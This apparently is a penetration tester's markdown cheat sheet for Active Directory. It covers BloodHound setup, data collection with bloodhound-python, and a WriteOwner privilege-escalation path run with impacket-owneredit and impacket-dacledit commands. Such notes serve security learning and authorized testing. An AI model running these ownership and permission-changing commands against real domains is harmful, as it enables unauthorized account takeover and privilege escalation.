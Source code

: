 ## Bloodhound Setup
https://www.kali.org/tools/bloodhound/

```
sudo neo4j start
# go to http://localhost:7474 an change default credentials
bloodhound
# authenticate with the new credentials
```
 ## Data collection
### SharpHound
Only on Windows

### BloodHound.py
https://www.kali.org/tools/bloodhound.py/

```
# -c All to collect everything
bloodhound-python -d <domain> -u <user> -p <password> -ns <DC IP> -c All
```
### Import data
1. In BloodHound GUI → click Upload Data (usually top-right, cloud-upload icon).
2. Select the directory or files → pick all your .json files from BloodHound.py.
3. BloodHound will parse and import the data into Neo4j.
   
 ## Running queries
1. Go through all owned accounts and mark them as owned (RMB -> Mark as owned)
2. Go through all interesting accounts and mark as High value
3. Go through pre-built queries, Click on nodes etc.

## Escalation Paths

### WriteOwner
[User1] --WriteOwner-> [User2]

https://www.hackingarticles.in/abusing-ad-dacl-writeowner/
```
impacket-owneredit -action write -new-owner '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
impacket-dacledit -action write -rights 'WriteMembers' -principal '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
```
